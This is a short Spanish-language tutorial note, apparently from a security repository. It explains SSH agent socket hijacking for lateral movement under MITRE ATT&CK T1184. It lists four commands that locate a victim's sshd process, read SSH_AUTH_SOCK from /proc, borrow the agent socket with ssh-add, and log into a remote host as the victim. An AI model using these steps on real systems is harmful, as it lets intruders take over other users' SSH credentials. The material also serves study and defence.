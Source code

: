 
SSH Session Hijacking, es uno de los métodos que podemos explorar para movimiento lateral. [SSH Hijacking Mitre](https://attack.mitre.org/wiki/Technique/T1184)

[Mitre ATT&CK Framework](https://attack.mitre.org/wiki/Main_Page)

*Para poder aprovechar éste método, la máquina comprometida debe tener una sesión SSH activa establecidad a otra máquina **(via public key authentication)*

Si somos root en el sistema comprometido, entonces es posible comprometer el agente SSH o acceder al [unix domain socket del agente SSH](https://en.wikipedia.org/wiki/Unix_domain_socket) y robar la conexión.

La razón por la que ésto es posible es que el agente SSH crea un Unix domain socket, y después se pone a la escucha de conexiones desde el demonio *sshd* hasta éste socket.

La protección del socket recae sobre simples permisos unix, lo cual últimamente significa que las claves de autenticación que son usadas con ese socket pueden ser accedidas por cualquier usuario que pueda conectarse al socket en cuestión.

*Ejemplo de los pasos que debemos hacer para ejecutar el ataque*

1º Determinamos el PID (process ID) del servicio SSH del usuario en el host comprometido:

```
ps aux | grep sshd
```

2º Determinamos la variable de entorno SSH_AUTH_SOCK para el PID sshd:

```
grep SSH_AUTH_SOCK /proc/PID/environ
```

3º Robamos el socket del agente-ssh del objetivo:

```
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXX/agent.XXXX ssh-add -l
```

4º Finalmente, iniciamos sesión en el sistema remoto en el que nuestra víctima ha iniciado sesión como el objetivo:

```
ssh remotesystem -l victim
```

[Para más info acerca de éste método](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)

